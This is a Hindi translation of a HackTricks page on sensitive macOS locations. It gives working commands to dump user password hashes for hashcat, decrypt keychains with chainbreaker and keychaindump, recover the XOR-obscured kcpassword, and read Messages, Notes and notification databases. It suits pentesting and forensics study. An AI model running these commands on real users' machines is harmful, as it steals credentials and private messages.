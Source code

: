 # macOS संवेदनशील स्थान

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## पासवर्ड

### शैडो पासवर्ड

शैडो पासवर्ड **`/var/db/dslocal/nodes/Default/users/`** में स्थित plists में उपयोगकर्ता के कॉन्फ़िगरेशन के साथ संग्रहीत होता है।\
निम्नलिखित oneliner का उपयोग **सभी उपयोगकर्ताओं के बारे में जानकारी** (हैश जानकारी सहित) डंप करने के लिए किया जा सकता है:

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
```bash
dscl . list /Users | grep -v '^_' | while read user; do echo -n "$user:"; dscl . -read /Users/$user dsAttrTypeNative:ShadowHashData | tr -d ' ' | cut -d '[' -f2 | cut -d ']' -f1 | xxd -r -p | base64; echo; done
```
{% endcode %}

[**इस तरह की स्क्रिप्ट्स**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) या [**यह वाली**](https://github.com/octomagon/davegrohl.git) का उपयोग करके हैश को **hashcat** **प्रारूप** में परिवर्तित किया जा सकता है।

सभी गैर-सेवा खातों के क्रेडेंशियल्स को hashcat प्रारूप `-m 7100` (macOS PBKDF2-SHA512) में डंप करने के लिए एक वैकल्पिक वन-लाइनर:

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

### Keychain Dump

ध्यान दें कि security बाइनरी का उपयोग करते समय **पासवर्ड्स को डिक्रिप्टेड करके डंप करने** के लिए, कई प्रॉम्प्ट्स उपयोगकर्ता से इस ऑपरेशन की अनुमति मांगेंगे।
```bash
#security
secuirty dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```
### [Keychaindump](https://github.com/juuso/keychaindump)

{% hint style="danger" %}
इस टिप्पणी के आधार पर [juuso/keychaindump#10 (टिप्पणी)](https://github.com/juuso/keychaindump/issues/10#issuecomment-751218760) ऐसा लगता है कि ये उपकरण Big Sur में अब काम नहीं कर रहे हैं।
{% endhint %}

हमलावर को अभी भी सिस्टम तक पहुँचने की जरूरत है और **keychaindump** चलाने के लिए **root** विशेषाधिकारों तक बढ़ाना होगा। इस दृष्टिकोण में अपनी शर्तें हैं। जैसा कि पहले उल्लेख किया गया है, **लॉगिन पर आपका कीचेन डिफ़ॉल्ट रूप से अनलॉक हो जाता है** और जब आप अपने सिस्टम का उपयोग करते हैं तो अनलॉक रहता है। यह सुविधा के लिए है ताकि उपयोगकर्ता को हर बार जब एक एप्लिकेशन कीचेन तक पहुँचना चाहता है तो उसे अपना पासवर्ड दर्ज नहीं करना पड़े। अगर उपयोगकर्ता ने इस सेटिंग को बदल दिया है और हर उपयोग के बाद कीचेन को लॉक करने का चुनाव किया है, तो keychaindump अब काम नहीं करेगा; यह एक अनलॉक कीचेन पर निर्भर करता है ताकि काम कर सके।

Keychaindump कैसे पासवर्ड को मेमोरी से निकालता है यह समझना महत्वपूर्ण है। इस लेन-देन में सबसे महत्वपूर्ण प्रक्रिया ”**securityd**“ **प्रक्रिया** है। Apple इस प्रक्रिया को **प्राधिकरण और क्रिप्टोग्राफिक ऑपरेशनों के लिए एक सुरक्षा संदर्भ डेमन** के रूप में संदर्भित करता है। Apple डेवलपर लाइब्रेरीज़ इसके बारे में बहुत कुछ नहीं बताती हैं; हालांकि, वे हमें बताते हैं कि securityd कीचेन तक पहुँच को संभालता है। अपने शोध में, Juuso कीचेन को डिक्रिप्ट करने के लिए जरूरी कुंजी को ”The Master Key“ के रूप में संदर्भित करता है। इस कुंजी को प्राप्त करने के लिए कई कदम उठाने की जरूरत है क्योंकि यह उपयोगकर्ता के OS X लॉगिन पासवर्ड से निकाला जाता है। अगर आप कीचेन फाइल को पढ़ना चाहते हैं तो आपके पास यह मास्टर कुंजी होनी चाहिए। इसे प्राप्त करने के लिए निम्नलिखित कदम किए जा सकते हैं। **securityd के हीप का स्कैन करें (keychaindump यह vmmap कमांड के साथ करता है)**। संभावित मास्टर कुंजियाँ MALLOC\_TINY के रूप में चिह्नित क्षेत्र में संग्रहीत होती हैं। आप इन हीप्स के स्थानों को निम्नलिखित कमांड के साथ स्वयं देख सकते हैं:
```bash
sudo vmmap <securityd PID> | grep MALLOC_TINY
```
**Keychaindump** तब वापस आए हीप्स में 0x0000000000000018 की घटनाओं की खोज करेगा। अगर अगला 8-बाइट मान वर्तमान हीप की ओर इशारा करता है, तो हमने एक संभावित मास्टर की पाई है। यहाँ से थोड़ा डिओब्फस्केशन अभी भी होना आवश्यक है जो सोर्स कोड में देखा जा सकता है, लेकिन एक विश्लेषक के रूप में सबसे महत्वपूर्ण बात यह है कि इस जानकारी को डिक्रिप्ट करने के लिए आवश्यक डेटा securityd की प्रोसेस मेमोरी में संग्रहीत होता है। यहाँ keychain dump आउटपुट का एक उदाहरण है।
```bash
sudo ./keychaindump
```
### chainbreaker

[**Chainbreaker**](https://github.com/n0fate/chainbreaker) का उपयोग निम्नलिखित प्रकार की जानकारी को OSX keychain से फोरेंसिक रूप से सही तरीके से निकालने के लिए किया जा सकता है:

* हैश्ड Keychain पासवर्ड, [hashcat](https://hashcat.net/hashcat/) या [John the Ripper](https://www.openwall.com/john/) के साथ क्रैकिंग के लिए उपयुक्त
* इंटरनेट पासवर्ड
* जेनेरिक पासवर्ड
* प्राइवेट कीज़
* पब्लिक कीज़
* X509 सर्टिफिकेट्स
* सिक्योर नोट्स
* Appleshare पासवर्ड

Keychain अनलॉक पासवर्ड, [volafox](https://github.com/n0fate/volafox) या [volatility](https://github.com/volatilityfoundation/volatility) का उपयोग करके प्राप्त मास्टर की, या SystemKey जैसी अनलॉक फाइल दी गई हो, तो Chainbreaker प्लेनटेक्स्ट पासवर्ड भी प्रदान करेगा।

इनमें से किसी भी तरीके से Keychain को अनलॉक किए बिना, Chainbreaker सभी अन्य उपलब्ध जानकारी दिखाएगा।

### **Dump keychain keys**
```bash
#Dump all keys of the keychain (without the passwords)
python2.7 chainbreaker.py --dump-all /Library/Keychains/System.keychain
```
### **SystemKey के साथ keychain कुंजियों (पासवर्ड के साथ) का डंप**
```bash
# First, get the keychain decryption key
# To get this decryption key you need to be root and SIP must be disabled
hexdump -s 8 -n 24 -e '1/1 "%.2x"' /var/db/SystemKey && echo
## Use the previous key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
### **कीचेन कुंजियों को डंप करना (पासवर्ड के साथ) हैश को क्रैक करना**
```bash
# Get the keychain hash
python2.7 chainbreaker.py --dump-keychain-password-hash /Library/Keychains/System.keychain
# Crack it with hashcat
hashcat.exe -m 23100 --keep-guessing hashes.txt dictionary.txt
# Use the key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
### **मेमोरी डंप के साथ keychain कुंजियों (पासवर्ड के साथ) को डंप करें**

[इन चरणों का पालन करें](..#dumping-memory-with-osxpmem) **मेमोरी डंप** करने के लिए
```bash
#Use volafox (https://github.com/n0fate/volafox) to extract possible keychain passwords
# Unformtunately volafox isn't working with the latest versions of MacOS
python vol.py -i ~/Desktop/show/macosxml.mem -o keychaindump

#Try to extract the passwords using the extracted keychain passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
### **उपयोगकर्ता के पासवर्ड का उपयोग करके keychain कुंजियों को डंप करें (पासवर्ड के साथ)**

यदि आप उपयोगकर्ता का पासवर्ड जानते हैं तो आप इसका उपयोग **उपयोगकर्ता के संबंधित keychain को डंप करने और डिक्रिप्ट करने** के लिए कर सकते हैं।
```bash
#Prompt to ask for the password
python2.7 chainbreaker.py --dump-all --password-prompt /Users/<username>/Library/Keychains/login.keychain-db
```
### kcpassword

**kcpassword** फ़ाइल एक ऐसी फ़ाइल है जिसमें **उपयोगकर्ता का लॉगिन पासवर्ड** होता है, लेकिन केवल तब जब सिस्टम के मालिक ने **स्वचालित लॉगिन सक्षम** किया हो। इसलिए, उपयोगकर्ता को बिना पासवर्ड मांगे स्वतः ही लॉग इन किया जाएगा (जो कि बहुत सुरक्षित नहीं है)।

पासवर्ड फ़ाइल **`/etc/kcpassword`** में की **`0x7D 0x89 0x52 0x23 0xD2 0xBC 0xDD 0xEA 0xA3 0xB9 0x1F`** के साथ xored होता है। अगर उपयोगकर्ता का पासवर्ड की से लंबा होता है, तो की का पुन: उपयोग किया जाएगा।\
इससे पासवर्ड को पुनः प्राप्त करना काफी आसान हो जाता है, उदाहरण के लिए [**इस स्क्रिप्ट**](https://gist.github.com/opshope/32f65875d45215c3677d) का उपयोग करके।

## डेटाबेस में रोचक जानकारी

### Messages
```bash
sqlite3 $HOME/Library/Messages/chat.db .tables
sqlite3 $HOME/Library/Messages/chat.db 'select * from message'
sqlite3 $HOME/Library/Messages/chat.db 'select * from attachment'
sqlite3 $HOME/Library/Messages/chat.db 'select * from deleted_messages'
sqlite3 $HOME/Suggestions/snippets.db 'select * from emailSnippets'
```
### सूचनाएं

आप सूचनाओं का डेटा `$(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/` में पा सकते हैं।

अधिकांश रोचक जानकारी **blob** में होगी। इसलिए आपको उस सामग्री को **निकालना** होगा और उसे **मानव** **पठनीय** रूप में **परिवर्तित** करना होगा या **`strings`** का उपयोग करना होगा। इसे एक्सेस करने के लिए आप कर सकते हैं:

{% code overflow="wrap" %}
```bash
cd $(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/
strings $(getconf DARWIN_USER_DIR)/com.apple.notificationcenter/db2/db | grep -i -A4 slack
```
### नोट्स

उपयोगकर्ता के **नोट्स** `~/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite` में पाए जा सकते हैं।

{% code overflow="wrap" %}
```bash
sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite .tables

#To dump it in a readable format:
for i in $(sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite "select Z_PK from ZICNOTEDATA;"); do sqlite3 ~/Library/Group\ Containers/group.com.apple.notes/NoteStore.sqlite "select writefile('body1.gz.z', ZDATA) from ZICNOTEDATA where Z_PK = '$i';"; zcat body1.gz.Z ; done
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
